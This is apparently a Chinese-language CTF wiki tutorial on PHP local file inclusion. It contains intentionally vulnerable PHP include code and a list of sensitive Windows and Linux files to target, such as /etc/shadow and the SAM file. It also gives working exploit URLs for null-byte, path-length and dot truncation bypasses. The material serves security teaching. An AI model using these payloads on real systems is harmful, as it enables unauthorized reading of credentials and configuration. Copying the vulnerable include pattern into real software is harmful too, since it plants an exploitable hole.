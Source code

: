 # 本地文件包含漏洞
###无限制本地文件包含漏洞

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename);
?>
```
测试结果：

通过目录遍历漏洞可以获取到系统中其他文件的内容

![Alt text](./015.png)


####常见的敏感信息路径
#####Windows系统

c:\boot.ini // 查看系统版本
c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件
c:\windows\repair\sam // 存储Windows系统初次安装的密码
c:\ProgramFiles\mysql\my,ini // MySQL配置
c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root
c:\windows\php.ini // php 配置信息
c:\windows\my.ini
……

#####Linux/Unix系统

/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置
/usr/local/app/php5/lib/php.ini // PHP相关配置
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/my.conf // mysql 配置文件
###有限制本地文件包含漏洞绕过
####%00截断
条件：
allow_url_fopen = Off    
php版本<5.3.4

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename . ".html");
?>
```
测试结果：
```
http://www.ctfs-wiki.com/FI/FI.php?filename=../../../../../../../boot.ini%00
```
通过%00截断了后面的html
![Alt text](./016.png)

####路径长度截断
条件：windows OS，点号需要长于256；linux OS 长于4096

windows下目录最大长度为256字节，超出的部分会被丢弃

linux下目录最大长度为4096字节，超出的部分会被丢弃

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename . ".html");
?>
```
EXP:
```
http://www.ctfs-wiki.com/FI/FI.php?filename=test.txt/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././

```
测试结果：
发现已经成功截断后面的.html，成功包含了test.txt文件
![Alt text](./017.png)
####点号截断
条件：windows OS，点号需要长于256

测试代码：
```
<?php
	$filename  = $_GET['filename'];
	include($filename . ".html");
?>
```
EXP:
```
http://www.ctfs-wiki.com/FI/FI.php
?filename=test.txt.................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```
测试结果：
发现已经成功截断后面的.html，成功包含了test.txt文件
![Alt text](./018.png)

